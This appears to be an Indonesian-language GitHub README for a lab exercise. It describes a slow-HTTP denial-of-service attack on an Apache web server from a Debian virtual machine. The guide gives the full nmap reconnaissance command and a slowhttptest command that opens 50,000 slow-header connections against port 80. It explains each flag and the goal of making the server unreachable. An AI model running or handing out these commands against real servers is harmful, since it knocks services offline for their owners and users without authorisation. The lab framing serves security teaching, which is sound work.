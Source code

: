 <h2 align="center">Attack dengan slowhttp </h2>
بِسْمِ اللَّهِ الرَّحْمَنِ الرَّحِيْم

## Bahan
- VM OS Debian 

## Tujuan
  Membuat Web Server menjadi DOWN / tidak dapat diakses

## Penggunaan 
- Konfigurasi Adapter Network pada VM anda dengan dua adapter yaitu NAT dan Host Only
- Konfigurasi Network menjadi dhcp pada adapter NAT/enp0s3 dan Static pada adapter Host Only/enp0s8,
  Contoh :
    ![image/image1.png](https://github.com/yogaputrarm/cacti-kons1/blob/main/image/image1.png)
- lakukan update repository terlebih dahulu
- lakukan instalasi slowhttptest dan NMAP, dengan perintah:
  ```
  apt install slowhttptest nmap
  ```
- Tunggu hingga proses instalasi selesai
- lakukan scanning untuk mendapatkan informasi teknologi apa saja yang digunakan pada server target, dengan perintah:
  ```
  nmap -sVC -O ip target
  ```
- setelah mendapatkan hasil scanning, pastikan terdapat port 80 yang berisi service Apache dalam keadaan terbuka
- kemudian lakukan penyerangan pada port 80, dengan perintah
  ```
  slowhttptest -c 50000 -H -r 200 -t GET -u http://ip target/ -x 24 -p 3 -l 9999
  ```
  Note :
    -c 50000 = total koneksi yang dikirimkan
    -H = memperlambat headers dari website
    -r 200 = melakukan koneksi 200/detik
    -t GET = metode GET saat request
    -u = url target //http:ip target/
    -x 24 = panjang data random yang dikirim sebanyak 24
    -p 3 = waktu saat timeout selama 3 detik
    -l 9999 = bata waktu penargetan
- Masuk pada mode monitoring penyerangan 
- Tunggu `service available` yang berawal dari "YES" menjadi "NO"
- sebelum penyerangan
- sesudah penyerangan


